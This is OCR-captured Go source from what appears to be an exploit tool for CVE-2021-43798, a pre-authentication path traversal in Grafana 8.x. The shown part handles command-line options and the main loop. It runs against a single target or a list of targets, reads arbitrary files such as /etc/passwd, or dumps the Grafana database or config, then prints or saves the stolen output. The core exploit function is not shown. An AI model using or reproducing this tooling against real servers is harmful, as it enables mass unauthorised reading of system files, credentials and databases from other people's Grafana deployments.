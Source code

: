 ```
if options.list != "" && options.target != "" {
log("fatal", "Cannot specify both list and single target")
}
if options.list != "" && options.output != "" {
log("fatal", "Cannot output to file when using list")
}
if options.list == "" && options.target == "" {
log("fatal", "Must specify targets (-target http://localhost:3000)")
}
if options.dumpDatabase || options.dumpConfig {
if options.file != "" {
log("fatal", "Cannot dump database while using file")
}
if options.dumpDatabase && options.dumpConfig {
log("fatal", "Cannot dump database and config at the same time")
}
} else {
if options.file == "" {
log("fatal", "File path must be specified (-file /etc/passwd)")
}
if !strings.HasPrefix(options.file, "/") {
log("fatal", "File path must start with a / (-file /etc/passwd)")
}
}
fmt.Println("CVE-2021-43798 - Grafana 8.x Path Traversal (Pre-Auth)")
fmt.Print("Made by Tay (https://github.com/taythebot)\n\n")
if options.list != "" {
f, err := os.Open(options.list)
if err != nil {
log("fatal", fmt.Sprintf("Failed to open list: %s", err))
}
defer f.Close()
scanner := bufio.NewScanner(f)
for scanner.Scan() {
target := scanner.Text()
log("info", fmt.Sprintf("Exploiting target %s", target))
output, err := exploit(target, options.file, options.dumpDatabase, options.dumpConfig)

if err != nil {
log("error", fmt.Sprintf("Failed to exploit target %s: %s", target, err))
} else {
log("info", fmt.Sprintf("Successfully exploited target %s", target))
fmt.Println(output)
}
}
} else {
log("info", fmt.Sprintf("Exploiting target %s", options.target))
output, err := exploit(options.target, options.file, options.dumpDatabase, options.dumpConfig)
if err != nil {
log("error", fmt.Sprintf("Failed to exploit target %s: %s", options.target, err))
} else {
log("info", fmt.Sprintf("Successfully exploited target %s", options.target))
fmt.Println(output)
if options.output != "" {
f, err := os.Create(options.output)
if err != nil {
log("fatal", fmt.Sprintf("Failed to create output file: %s", err))
}
defer f.Close()
if _, err := f.Write([]byte(output)); err != nil {
log("fatal", fmt.Sprintf("Failed to write to output file: %s", err))
}
log("info", fmt.Sprintf("Succesfully saved output to file %s", options.output))
```